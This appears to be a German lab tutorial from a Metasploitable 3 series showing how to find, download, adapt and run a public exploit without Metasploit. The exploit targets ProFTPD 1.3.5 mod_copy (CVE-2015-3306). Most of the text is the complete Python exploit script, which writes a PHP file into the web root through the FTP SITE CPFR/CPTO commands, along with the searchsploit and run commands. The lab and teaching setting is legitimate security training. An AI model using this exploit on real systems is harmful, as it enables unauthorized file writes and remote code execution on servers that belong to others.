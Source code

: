 # Exploit ohne Metasploit starten

## Exploit suchen

Als erstes sollte man nach dem Exploit suchen für die Schwachstelle:

``` bash
searchsploit ProFTPD 1.3.5
```

![Bild01.jpg](/images/Metaspolitable-3/Exploit_ohne_Metasploit/Bild01.jpg)

## Exploit herunterladen

Nachdem man den richtigen exploit gefunden hat kann man ihn mit dem folgenden befehl herunterladen:

``` bash
searchsploit -m linux/remote/49908.py
```

![Bild02.jpg](/images/Metaspolitable-3/Exploit_ohne_Metasploit/Bild02.jpg)

## Exploit anpassen

Ab diesem punkt wird es anderst für jeden Exploit. Du musst den heruntergeladenen Exploit durchlesen und verstehen wie er funktioniert, damit man ihn so anpassen kann das er für dich funktioniert.

``` bash
nano 49908.py
```

``` bash title="49908.py"
# Exploit Title: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)
# Date: 25/05/2021
# Exploit Author: Shellbr3ak
# Version: 1.3.5 
# Tested on: Ubuntu 16.04.6 LTS
# CVE : CVE-2015-3306

#!/usr/bin/env python3

import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /etc/passwd\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto <?php phpinfo(); ?>\r\n') # phpinfo() is just a PoC.
    print(client.recv(1024).decode())
    client.send(b'site cpfr /proc/self/fd/3\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /var/www/html/test.php\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

## Exploit ausführen

Exploit ausführbar machen und ausführen:

``` bash
chmod +x 49908.py
python3 49908.py <IP-Adresse>
```

![Bild03.jpg](/images/Metaspolitable-3/Exploit_ohne_Metasploit/Bild03.jpg)

Man könnte auch noch auf der Website kontrollieren ob es funktioniert hat:

![Bild04.jpg](/images/Metaspolitable-3/Exploit_ohne_Metasploit/Bild04.jpg)